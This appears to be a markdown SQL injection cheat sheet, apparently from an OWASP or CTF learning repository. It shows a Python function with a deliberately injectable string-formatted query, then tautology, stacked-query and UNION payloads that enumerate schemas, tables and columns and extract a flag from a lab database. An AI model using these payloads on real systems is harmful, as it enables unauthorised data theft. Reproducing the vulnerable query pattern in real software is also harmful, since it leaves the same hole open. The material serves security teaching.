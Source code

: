 # SQLi
## The source is [here](https://owasp10-c874b6974594.notion.site/Code-Example-450b5fc335614b348956cb6087dfaa2d)


### The Basic and usefull Commands
```python
def user_exists(username: str) -> bool:
    with connection.cursor() as cursor:
        cursor.execute("""
            SELECT
                Id
            FROM
                users
            WHERE
                username = '%s'
        """ % username)
        result = cursor.fetchone()
    id, = result
    return id
```
* attack is like this
```sql
user_exists('test') #False
#select id from users where username = 'test'

user_exists("'; select 1=1; --") #True
#select id from users where username = ''; select true; --'
```

```sql
'; select 1=1; -—
```
```sql
'; select 1=1; #
```
### Simplest injection
```sql
' or 1=1#
```
```sql
' or 1=1--
```
### UNION ATTACK 
when a web application show Direct result, we should use UNION Attack

```sql
select * from news where news_id = $NEWSID;
select * from news where news_id = '$NEWSID';
select * from news where news_id = "$NEWSID";
```
when a web application show Indirect result, 

```plain text
Default request:
page/?id=54

Test 1:
page/?id=54  order by 1
page/?id=54' order by 1#
page/?id=54" order by 1#

Test 2:
page/?id=54  order by 1000
page/?id=54' order by 1000#
page/?id=54" order by 1000#
```

We can confirm the SQLi when results of:

- Default == Test 1
- Test 1 ≠ Test 2


```sql
' order by 1 #
' order by 2 # ==> sql error so there was 1 column
```
```sql
' union select 1#
' union select group_concat(schema_name) FROM information_schema.schemata #
```
 - database names is ==> information_schema,level2



```sql
' union select group_concat(table_name) FROM information_schema.tables where table_schema='level2' #
```
or
```sql
' union select group_concat(table_name) FROM information_schema.tables where table_schema=database() #
```
 - level2 tables is ==> my_secret_table,users



```sql
' union select group_concat(column_name) FROM information_schema.columns where table_schema=database() and table_name='my_secret_table' #
```
 - columns of my_secret_table is ==> flag


```sql
' union select flag from level2.my_secret_table #
```
Now data is here